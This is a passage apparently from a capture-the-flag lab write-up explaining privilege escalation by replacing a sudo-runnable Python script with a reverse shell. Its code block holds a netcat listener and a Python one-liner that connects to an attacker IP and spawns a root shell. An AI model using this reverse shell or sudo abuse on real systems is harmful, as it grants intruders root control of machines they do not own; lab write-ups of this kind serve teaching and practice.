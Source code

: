 * Now, for 'run.py', we do not have the required 'rwx' permissions, but we have the privilege to run this as sudo. As this resides in our home directory, we can remove this file and create a new file with same name to get root shell:

  ```sh
  rm run.py

  # in attacker machine
  nc -nvlp 4444

  # in victim ssh, write reverse shell
  echo 'import os,pty,socket;s=socket.socket();s.connect(("10.10.223.78",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' > run.py

  sudo /usr/bin/python3 /home/cyber/run.py
  # we get reverse shell as root on listener

  # get flag2.txt from /home/yash and root.txt from /root
  ```
